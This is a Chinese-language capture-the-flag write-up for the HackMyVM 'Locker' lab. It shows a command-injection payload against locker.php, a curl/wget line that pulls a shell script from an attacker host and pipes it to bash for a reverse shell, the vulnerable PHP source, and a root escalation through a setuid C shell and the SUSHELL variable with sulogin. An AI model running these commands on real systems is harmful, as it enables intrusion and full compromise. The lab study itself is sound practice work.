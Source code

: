 # Locker

2024-11-08 https://hackmyvm.eu/machines/machine.php?vm=Locker

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只有一个开放的端口，点击首页上的 Model 链接，发现 http://192.168.5.39/locker.php?image=1 同时存在 1.jpg 的图片文件，几个图片中没有隐写信息， 可能存在 LFI 或 RCE 漏洞，经过测试，存在 RCE 漏洞，如下：

```
curl -G --data-urlencode 'image=4;id;' http://192.168.5.39/locker.php
```

可以看到 www-data 用户，所以直接 wget 执行反弹 shell：

```
curl -G --data-urlencode 'image=4;wget -q -O - http://192.168.5.3/5-3/8888.sh|bash;' http://192.168.5.39/locker.php
```

看看漏洞是怎么形成的：

```
cat locker.php

<?php
$image = $_GET['image'];
$command = "cat ".$image.".jpg | base64";
$output = shell_exec($command);
print'<img src="data:image/jpg;base64,'.$output.'"width="150"height="150"/>';
?>
```

发现 suid 程序 /usr/sbin/sulogin ，执行后提示 root locked：

```
/usr/sbin/sulogin -p
```

寻找 sulogin 的帮助文档发现：

```
sulogin looks for the environment variable SUSHELL or sushell to determine what shell to start. If the environment variable is not set, it will try to execute root’s shell from /etc/passwd. If that fails, it will fall back to /bin/sh.
```

可以设置 SUSHELL 来实现自定义的 shell 调用，新建 bash.c 文件内容为，目标机器上没有编译器，只有在 kali 上编译好后上传到目标机器(使用静态编译，目标机器上缺少库)：

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > bash.c && gcc bash.c --static -o bash
```

在目标机器上下载后，执行下面命令：

```
chmod +x bash
export SUSHELL=/tmp/bash
/usr/sbin/sulogin -e
```

最终得到了 user 和 root flag：

```
root@locker:/home/tolocker# cat user.txt
flaglockeryes
root@locker:/home/tolocker# cat /root/root.txt
igotroothere
```

